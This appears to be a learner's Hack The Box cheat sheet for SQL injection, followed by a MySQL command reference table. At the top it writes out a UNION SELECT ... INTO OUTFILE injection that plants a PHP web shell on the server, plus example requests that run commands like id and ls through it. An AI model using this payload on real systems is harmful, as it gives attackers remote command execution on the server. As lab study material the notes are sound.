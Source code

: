 writing php shell code

`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`

execture command eg

`127.0.0.1/shell.php?0=id`
`127.0.0.1/shell.php?0=ls /`
`127.0.0.1/shell.php?0=<any commands>`

# HTB Cheetsheet

## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |
